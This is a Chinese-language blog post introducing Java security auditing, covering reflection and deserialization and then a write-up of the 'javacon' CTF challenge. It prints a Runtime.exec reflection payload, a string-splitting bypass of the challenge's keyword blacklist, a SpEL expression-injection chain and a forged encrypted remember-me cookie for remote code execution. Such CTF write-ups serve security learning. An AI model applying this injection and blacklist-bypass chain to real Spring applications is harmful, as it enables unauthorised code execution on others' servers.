 ```yaml
---
title: java审计入门
date: 2019-11-17 13:53:36
categories:
tags:
---
```


## 反射相关概念

引用p牛的一句话

> 一段代码，改变其中的变量，将会导致这段代码产⽣生功能性的变化，我称之为动态特性

PHP本身有很多的动态特性，java虽然没有那么灵活，但是java的反射赋予了Java一些动态地特性



我在学习java的时候，一直不太清楚java是如何获取变量的类型的，python和JavaScript都可以用`type`来分清楚这个变量的类型

后来才知道`getClass`这个方法，可以返回变量的类型

比如

```
System.out.println("a".getClass());

输出class java.lang.String

System.out.println(new Integer(1).getClass());

输出class java.lang.Integer

System.out.println(Runtime.getRuntime().getClass());
输出 class java.lang.Runtime
```

这样就知道了这个对象属于哪个类



其实我们不止可以获得对象属于哪个类，我们还可以调用这个对象所属的类的方法

来看一个最常用的payload

```java
Class clazz = Class.forName("java.lang.Runtime");
clazz.getMethod("exec", String.class).invoke(clazz.getMethod("getRuntime").invoke(clazz), "calc");        
```

1. 首先获取`java.lang.Runtime`的类型`类`
2. 然后获取`java.lang.Runtime`的方法`exec`，由于`exec`方法有重载，所以要指明参数类型`String.class`
3. 之后通过`invoke`调用，第一个参数是`Runtime`的对象，第二个参数是`calc`

invoke调用时候的规定如下：

1. 如果是一个普通方法，第一个参数是类对象
2. 如果是一个静态方法，第一个参数是类

`java.lang.Runtime`的构造函数是私有的，也就是说不能通过实例化来产生其对象，必须通过调用`java.lang.Runtime.getRuntime`方法来得到一个对象

同时`getRuntime`方法是静态方法，所以`invoke`的第一个参数是类对象，没有其他的参数了

单例模式是因为有些操作只需要做一次就够了，比如建立数据库连接之类的

故其实中还有一次反射调用

1. 获取`java.lang.Runtime`的方法`getRuntime`
2. 通过invoke调用，产生一个`Runtime`的实例对象

## 反序列化

java的反序列化是通过`ObjectOutputStream`和`ObjectInputStream`两个类来实现的，同时要序列化的类必须实现`Serializable`接口

与PHP类似，Java在序列化一个对象的时候会调用`writeObject`方法，在反序列化一个对象的时候会调用`readObject`方法



## code-breaking——javacon

一个spring框架写的登陆界面，用户名和密码都是admin，有一个remember me可以勾选

`application.yml`中有一些相关的设置

```
keywords:
  blacklist:
    - java.+lang
    - Runtime
    - exec.*\(
user:
  username: admin
  password: admin
  rememberMeKey: c0dehack1nghere1
```

`keywords`是我们之后要绕过的

仔细分析代码，其中有存在一处类似模板渲染的语句

```java
        ParserContext parserContext = new TemplateParserContext();
        Expression exp = parser.parseExpression(val, parserContext);
        SmallEvaluationContext evaluationContext = new SmallEvaluationContext();
        return exp.getValue(evaluationContext).toString();
```

其实就是与其跟黑名单做正则匹配，如果匹配成功则抛出`HttpStatus.FORBIDDEN`，如果没有匹配到则进行正常流程，在`SmallEvaluationContext`进行SpEL表达式解析。注意，这里就存在El表达式注入的问题了。

这一处位于`getAdvanceValue`函数中，调用它的是这里：

```java
    @GetMapping
    public String admin(@CookieValue(value = "remember-me", required = false) String rememberMeValue,
                        HttpSession session,
                        Model model) {
        if (rememberMeValue != null && !rememberMeValue.equals("")) {
            String username = userConfig.decryptRememberMe(rememberMeValue);
            if (username != null) {
                session.setAttribute("username", username);
            }
        }

        Object username = session.getAttribute("username");
        if(username == null || username.toString().equals("")) {
            return "redirect:/login";
        }

        model.addAttribute("name", getAdvanceValue(username.toString()));
        return "hello";
    }
```

这里相当于是admin的管理界面，首先会检查`rememberMeValue`的值，并且尝试去解密其中的用户名，同时加入到`session`中，之后执行`model.addAttribute("name", getAdvanceValue(username.toString()));`

那么这里的关键就是`cookie`中的rememberMeValue，由于我们已经知道了加密的算法和密钥(代码都是直接给的)，那么就可以通过伪造`rememberMeValue`来达到rce

首先需要一条java的反射链，因为要绕过一些关键字：

```java
String.class.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",String.class).invoke(String.class.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(String.class.getClass().forName("java.l"+"ang.Ru"+"ntime")),"calc")
```

之后要将其构造成Spel表达式，就是增加一个`T()`

先本地测试弹一个计算器

```
System.out.println(Encryptor.encrypt("c0dehack1nghere1", "0123456789abcdef", "#{T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[])).invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"calc\"})}"));
```

生成的payload

```
bvik1nAmjEAllRdn5UKWGC9uCj0hW0P2B6k1uigkS1acKxD9b_xNi-x09UGgjU1DvDEI2GGk4Jn0ApM_cSVc0G7kGnvvtewNRVsfqFUCR0fMAPqbj6yqACW6XVtt8Fp1nBwebKd7pkYSZCv6Yj3X7H-0-8HDV6F3sS3yWHUQEBPAyiNmKfkSKUV5VVlNdo16Nij8YX8HvKdeMHJ7_5Sdjfmfq3dKPeUOivMyVp_GdEkffgly4YX4eWCOzQRr4uQgodsKw2pC9N9udnw3Fz7O5ZhzmoYttjLubBowMtkF-Q6HHCvBrK9SWCzRQXC6jqYX_XeqyZuDreUixnpXpzlN9Gj_AWy8DB8Dxea8atf2wr8=
```

之后登陆再替换掉cookie

![1573973547431](java审计入门/1573973547431.png)

当然后续还有其他的利用过程去读flag,就不一一细说了

